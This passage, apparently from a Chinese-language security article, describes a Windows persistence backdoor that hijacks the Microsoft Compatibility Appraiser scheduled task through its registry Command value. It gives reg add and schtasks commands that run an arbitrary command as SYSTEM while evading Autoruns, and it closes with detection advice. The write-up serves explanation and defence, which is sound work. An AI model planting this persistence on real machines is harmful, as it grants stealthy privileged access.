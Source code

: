 我在Win7、Server2012R2、Win10测试的结果表明，稳定利用方法如下：


修改注册表`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\AppCompatFlags\TelemetryController\Appraiser`的Command项

值设置为`C:\WINDOWS\system32\cmd.exe /c notepad.exe`


命令行实现的命令如下：

```
reg add "hklm\SOFTWARE\Microsoft\Windows NT\CurrentVersion\AppCompatFlags\TelemetryController\Appraiser" /v Command /t REG_EXPAND_SZ /d "C:\WINDOWS\system32\cmd.exe /c notepad.exe" /f
```

**补充：还原配置的命令**

```
reg add "hklm\SOFTWARE\Microsoft\Windows NT\CurrentVersion\AppCompatFlags\TelemetryController\Appraiser" /v Command /t REG_EXPAND_SZ /d "%windir%\system32\CompatTelRunner.exe -m:appraiser.dll -f:DoScheduledTelemetryRun" /f
```

### 3.后门触发

等待计划任务`Microsoft Compatibility Appraiser`运行

为了便于测试，可以强制开启，命令如下：

```
schtasks /run /tn "\Microsoft\Windows\Application Experience\Microsoft Compatibility Appraiser"
```

### 4.特点

能够绕过Autoruns的检测，以System权限执行命令

断网状态下同样能够触发

## 0x06 防御建议
---

### 1.查看注册表的默认值是否被修改

#### (1)查看注册表`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\AppCompatFlags\TelemetryController\Appraiser`的Command项

命令如下：

```
reg query "hklm\SOFTWARE\Microsoft\Windows NT\CurrentVersion\AppCompatFlags\TelemetryController\Appraiser" /v Command
```

默认值如下：

```
Command    REG_EXPAND_SZ    %windir%\system32\CompatTelRunner.exe -m:appraiser.dll -f:DoScheduledTelemetryRun
```
